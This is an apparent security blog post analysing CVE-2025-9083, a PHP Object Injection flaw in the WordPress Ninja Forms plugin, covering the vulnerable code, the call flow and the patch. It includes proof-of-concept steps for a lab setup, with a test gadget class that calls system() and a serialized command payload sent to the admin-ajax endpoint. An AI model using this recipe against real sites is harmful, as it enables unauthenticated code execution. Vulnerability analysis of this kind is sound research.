




# CVE-2025-9083 Analysis & POC


<!--more-->

## CVE & Basic Info
This plugin performs an **unserialize** operation on data submitted by users through form fields. This allows **unauthenticated users** to perform **PHP Object Injection** if a suitable gadget exists within the system.

* **CVE ID**: [CVE-2025-9083](https://www.cve.org/CVERecord?id=CVE-2025-9083)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 3.11.0
* **Patched Versions**: 3.11.1
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress Ninja Forms Plugin](https://wordpress.org/plugins/ninja-forms/)

## Requirements
* **Local WordPress & Debugging**
    * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
    * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** – **Ninja Forms**:  
    * `3.11.0` – **vulnerable**  
    * `3.11.1` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause
The vulnerability originates from the `extractSubmissions()` function inside the `FieldsetRepeater.php` file:

```php
if(is_string($fieldSubmissionValue)){
    $fieldSubmissionValue = maybe_unserialize($fieldSubmissionValue);
}
```

`maybe_unserialize()` is called without any protection against PHP Object Injection.


The patch replaces `maybe_unserialize()` with `unserialize()` and disables object creation using `['allowed_classes' => false]`, preventing PHP Object Injection altogether.

## Analysis


The class name corresponds to a layout field when creating a blank form with the plugin.



Create a form with **Repeatable Fieldset**, then drag a **Single Line Text** field into it as input, and embed the form into a post or page.


Publish the post and submit the form with a `payload` value:


We see that all data is assigned to the `formData` parameter. Copy the URL-decoded content into an online JSON formatter:
[https://jsonformatter.org/](https://jsonformatter.org/)



Observing the debugger shows the similarity:



`$fieldSubmissionValue` corresponds to the `value` of the field with ID `8`. Thus, when `value` is a string, it triggers `maybe_unserialize()`.

We create a class and place it in `wp-config.php` to test the invocation when `maybe_unserialize()` runs:

```php
class ObjectInjection
{
   public $command;

   function __destruct(){
		die(system($this->command));
   }
}
```

Resubmit the request with a serialized payload as the new `value`. Because the payload is wrapped inside JSON, quotes must be escaped (`\"`) to avoid breaking the JSON structure.




Shell execution occurs → Deserialization is triggered.


---

Callstack flow:

The application registers an AJAX handler for unauthenticated users:

```php
if( isset( $_POST['formData'] ) ) {
    $this->_form_data = json_decode( $_POST['formData'], TRUE );

    // php5.2 fallback
    if( ! $this->_form_data ) $this->_form_data = json_decode( stripslashes( $_POST['formData'] ), TRUE );
}
add_action( 'wp_ajax_nopriv_nf_ajax_submit', array( $this, 'submit' ) );
```

This means when sending a POST request to `/wp-admin/admin-ajax.php` with `action=nf_ajax_submit`, the `submit` callback is triggered.

A fully submitted form follows this call flow:


## Flow


graph TD
A["POST /wp-admin/admin-ajax.php"] -- action=nf_ajax_submit&security=security_code&formData=form_data --> B["wp_ajax_nopriv_nf_ajax_submit"]
B --> C["NF_AJAX_Controllers_Submission::submit()"]
C --> D["NF_AJAX_Controllers_Submission::process()"]
D --> E["NF_MergeTags_Fields::add_field()"]
E --> F["NF_MergeTags_Fields::generateFieldsetTableRows()"]
F --> G["NF_Handlers_FieldsetRepeater::extractSubmissions()"] --> H{$fieldSubmissionValue is String?}
H -- Yes --> I["maybe_unserialize($fieldSubmissionValue)"]
I --> K("RCE")


## Proof of Concept (PoC)

1. Use the plugin to create a blank form with a `Single Line Text` field inside a `Repeatable Fieldset`, then embed it in a post/page.
2. Submit the form and intercept the request using Burp Suite.
3. Replace the `value` of the field with a serialized payload instead of JSON.

```
"O:15:\"ObjectInjection\":1:{s:7:\"command\";s:4:\"ls /\";}"
```

4. Resend the request.

> [!TIP]
> To test locally, create a class with a `__wakeup()` magic method that triggers upon deserialization, and place it in `wp-config.php`:
>
> ```php
> class ObjectInjection
> {
>   public $command;
>   function __destruct(){
>   	die(system($this->command));
>   }
> }
> ```

# Conclusion

The CVE-2025-9083 vulnerability stems from using `maybe_unserialize()` on user-controlled input without any class restriction or validation. This enables unauthenticated attackers to execute arbitrary code if a suitable gadget exists within WordPress or other plugins/themes. The 3.11.1 patch completely prevents object creation by switching to `unserialize()` with `['allowed_classes' => false]`, effectively mitigating the root cause of the PHP Object Injection.

# Key Takeaways

* `maybe_unserialize()` is extremely dangerous when applied to user input.
* A single gadget anywhere in the codebase can lead to Remote Code Execution.
* WordPress AJAX endpoints exposed to unauthenticated users are high-value targets.
* JSON embedding requires careful escaping of serialized payloads to avoid breaking structure.
* The 3.11.1 patch demonstrates that controlling allowed classes during unserialization is a critical defensive measure.

## References

[Deserialization](https://book.hacktricks.wiki/en/pentesting-web/deserialization/index.html)

[WordPress Ninja Forms Plugin < 3.11.1 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/ninja-forms/vulnerability/wordpress-ninja-forms-plugin-3-11-1-unauthenticated-php-object-injection-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-14-cve-2025-9083/  

